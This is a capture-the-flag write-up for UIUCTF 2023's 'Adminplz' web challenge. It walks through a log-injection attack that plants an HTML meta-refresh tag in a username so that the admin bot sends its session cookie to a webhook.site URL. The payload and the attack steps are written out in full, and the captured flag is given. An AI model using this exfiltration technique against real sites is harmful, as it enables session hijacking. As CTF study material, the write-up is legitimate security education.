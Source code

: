 # Adminplz (UIUCTF 2023)

**Challenge category**: Web<br>
**Challenge description**: "your daily dose of ☕"<br>
**Challenge points**: 322<br>
**CTF date**: sab, 01 Lug. 2023, 00:00 UTC — lun, 03 Lug. 2023, 00:00 UTC<br>

## Context

This challenge is about a Log Injection leading to exfiltration of cookies.

## Exploring the challenge

![1](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/5ab67534-cd47-4328-bd60-73ab33e3e6d0)

![4](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/d673a902-6b96-49e5-97e5-8c8689e861cd)


![2](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/be43b485-a783-4e69-90d9-553995228101)

The only thing we can do on this page is logging in and submitting an url to the admin bot. If we access to the <code>/admin</code> endpoint, we'll get an error:

![3](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/e5169f48-6c01-4e8a-9ee9-ec89a89ce823)

Let's have a look at the Java code.
```javascript
const { chromium } = require('playwright-chromium');
const URL = process.argv[2];

(async () => {
    console.log('running admin bot...')
    const browser = await chromium.launch()
    const context = await browser.newContext()
    context.setDefaultTimeout(2000)
    const page = await context.newPage()
    await page.goto('http://127.0.0.1:8080/')

    // login
    await page.type('input[name=username]', 'admin')
    await page.type('input[name=password]', process.env.ADMIN_PASSWORD)
    await Promise.all([
      page.click('input[type=submit]'),
      page.waitForNavigation({
        waitUntil: 'networkidle0',
      }),
    ]);
    // visit url
    console.log("visiting target...");
    await page.goto(URL);
    await page.waitForTimeout(900000); // 15 min
    await browser.close()
    console.log('Success!')
})();
```
For the bot, server is at 127.0.0.1 on port 8080. It logs to the server and then visit the submitted url.
```java
@Component
public class CSP implements Filter {
    @Override
    public void doFilter(ServletRequest request,
                         ServletResponse response,
                         FilterChain chain) throws ServletException, IOException {
        ((HttpServletResponse) response).addHeader("Content-Security-Policy", "default-src 'none';");
        chain.doFilter(request, response);
    }
}

```
CSP is set to <code>default-src 'none'</code>. A very strict policy that prevents any external resource to be loaded and any script to be executed, thus no XSS.
```java
@PostMapping(path = "/login", consumes = {MediaType.APPLICATION_FORM_URLENCODED_VALUE})
    public String login(HttpSession session, User user) {
        if (user.getUsername().equals("admin") && !user.getPassword().equals(ADMIN_PASSWORD)) {
            return "not allowed";
        }
        session.setAttribute("user", user);
        return "logged in";
    }
```
We can't login as admin as we don't know the password, but we can login as any user, our username will be set accordingly (password isn't check).
```java
@GetMapping("/admin")
    public Resource admin(HttpServletRequest req, HttpSession session, @RequestParam String view) {
        if (isLoggedIn(session) && view.contains("flag")) {
            logger.warn("user {} [{}] attempted to access restricted view", ((User) session.getAttribute("user")).getUsername(), session.getId());
        }
        return app.getResource(isAdmin(req, session) ? view : "error.html");
    }
```
Here, two things: our username could be written inside a log (<code>/var/log/adminplz/latest.log</code>) without any sanitizing process and 
a resource specified by a user controllable GET parameter (<code>view</code>) is returned to the admin (if the endpoint is accessed by the admin).
<code>accessResource()</code> method accepts file names and urls (of any protocol).<br>
There is no possibility for an XSS, nor a possibility to inject anything on any page. The only file where we can inject something, if we are logged and 
the <code>view</code> parameter contains the "flag" substring, is <code>/var/log/adminplz/latest.log</code>. This file can be rendered as HTML by the bot's browser.
Submitting an url like <code>http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log</code> will induce the admin bot to view the log file as an HTML page.
But, what we can do? We can't trigger XSS nor load any external resource. We can't get the /flag.html content. Can we steal cookies even without XSS? Yes.
If we look at the code above (the admin one), we can that not only the username is injected inside the log, but the session ID too. So, if admin visits a url 
like <code>http://127.0.0.1:8080/admin?view=file:///flag.html</code>, its session ID (authentication cookie) is written into the log. If we can exfiltrate this, 
we can authenticate us as admin to the server. In the log there is only text, but we can inject, through the username, HTML code.
How can we exfiltrate the admin cookie with a very strict CSP policy? With a <code>meta</code> tag that redirects the client to an URL that 
incorporate part of the log's content (admin's cookie included):
```html
<html><head><meta http-equiv="refresh" content='0; url=https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b?exf=

...Log content...

'></head>....
```

## Attack
Six steps:
+ Login with username <code><html><head><meta http-equiv="refresh" content='0; url=https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b?exf=</code>.
+ Visit <code>https://instance_server/admin?view=file:///flag.html</code> (it's important that the <code>view</code> parameter contains a valid path (existent file),
because otherwise an error will be triggered and the log's content resetted, deleting our previous input).
+ Submit the url <code>https://127.0.0.1:8080/admin?view=file:///flag.html</code> to the admin bot.
+ Login with username <code><html>'></head></code>.
+ Visit <code>https://instance_server/admin?view=file:///flag.html</code>.
+ Submit the url <code>http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log</code> to the admin bot.

After executing these steps, our server will receive a GET request with all the exfiltrated content inside a query parameter.

![adminplz_cookie](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/de9a0540-c05e-4747-9917-06997257a46a)


Got admin's session ID!
Now we have to use this cookie when accessing the <code>/admin</code> endpoint. In order to access the flag file we have to set the <code>view</code>
parameter to <code>file:///flag.html.</code>, so: <code>https://instance_server/admin?view=file:///flag.html</code>. By Visiting this link we'll get the flag!

![adminplz_flag](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/888aa3a9-0937-4f36-b173-8a7777136c59)

Flag is <code>uiuctf{adminplz_c4n_1_h4v3_s0M3_co0k13s?_b5eab1cc61c26f07e63af7f8}</code>.

